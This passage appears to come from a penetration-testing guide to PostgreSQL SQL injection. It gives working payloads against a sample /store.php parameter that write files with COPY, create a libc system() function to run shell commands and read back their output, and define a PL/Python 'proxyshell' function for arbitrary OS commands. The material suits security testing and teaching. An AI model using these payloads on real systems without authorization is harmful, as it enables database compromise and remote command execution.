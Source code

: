 ```
/store.php?id=1; COPY file_store(data) TO '/var/lib/postgresql/copy_output'--
```


##### Shell Injection

PostgreSQL provides a mechanism to add custom functions by using both Dynamic Library and scripting languages such as python, perl, and tcl.


###### Dynamic Library

Until PostgreSQL 8.1, it was possible to add a custom function linked with *libc*:
* `CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT`


Since *system* returns an *int* how we can fetch results from *system* stdout?


Here's a little trick:

* create a *stdout* table
    - *CREATE TABLE stdout(id serial, system_out text)*
* executing a shell command redirecting its *stdout*
    - *SELECT system('uname -a > /tmp/test')*
* use a *COPY* statements to push output of previous command in *stdout* table
    - *COPY stdout(system_out) FROM '/tmp/test**
* retrieve output from *stdout*
    - *SELECT system_out FROM stdout*


** Example:**

 ```
/store.php?id=1; CREATE TABLE stdout(id serial, system_out text) --

/store.php?id=1; CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6','system' LANGUAGE 'C'
STRICT --

/store.php?id=1; SELECT system('uname -a > /tmp/test') --

/store.php?id=1; COPY stdout(system_out) FROM '/tmp/test' --

/store.php?id=1 UNION ALL SELECT NULL,(SELECT system_out FROM stdout ORDER BY id DESC),NULL LIMIT 1 OFFSET 1--
```



###### plpython

PL/Python allows users to code PostgreSQL functions in python. It's untrusted so there is no way to restrict
what user can do. It's not installed by default and can be enabled on a given database by *CREATELANG*

* Check if PL/Python has been enabled on a database:
    - *SELECT count(*) FROM pg_language WHERE lanname='plpythonu'
* If not, try to enable:
    - *CREATE LANGUAGE plpythonu*
* If either of the above succeeded, create a proxy shell function:
    - *CREATE FUNCTION proxyshell(text) RETURNS text AS 'import os; return os.popen(args[0]).read() 'LANGUAGE plpythonu*
* Have fun with:
    - SELECT proxyshell(*os command*);
